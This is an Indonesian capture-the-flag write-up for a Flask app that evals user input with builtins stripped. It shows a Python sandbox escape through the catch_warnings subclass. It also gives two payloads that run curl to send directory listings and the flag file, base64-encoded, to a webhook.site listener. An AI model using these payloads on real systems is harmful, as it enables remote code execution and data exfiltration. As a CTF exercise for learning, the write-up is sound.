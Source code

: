 ## Blind RCE

```python
@app.route("/")
def index():
    req = request.args.get("easy", "True")
    print(req)
    eval(req, {"__builtins__": {}}, {})

    return "OK"
```
- RCE yang disebabkan fungsi eval namun hanya mereturn 'OK'
----
## Pyjail

- [Bypass Python Sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)
```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]()._module.__builtins__["__import__"]("os")
```

- Tanpa menggunakan manual method untuk mencari class catch_warnings, gunakan comprehension list yang nantinya memanggil fungsi os.system()
-----
## Solve

- Setelah mendapat rce, terdapat kejanggalan karena reverse shell tidak berhasil.
- Solusi yaitu menggunakan curl karena dapat menerima http request yaitu flagnya dari server rce.
- Dengan memanfaatkan webhook sebagai listener

### payload 1
```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]()._module.__builtins__["__import__"]("os").system('curl -X POST -d $(ls / | base64 -w 0) https://webhook.site/77128289-88a0-42a9-b37a-0f77c39f003b')
```

### payload 2
```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]()._module.__builtins__["__import__"]("os").system('curl -X POST -d $(cat /flag-5d89320ac7ab789ac1beb60c294f526e.txt | base64 -w 0) https://webhook.site/77128289-88a0-42a9-b37a-0f77c39f003b')
```
### flag
LKSSMK{baby_python_is_really_easy}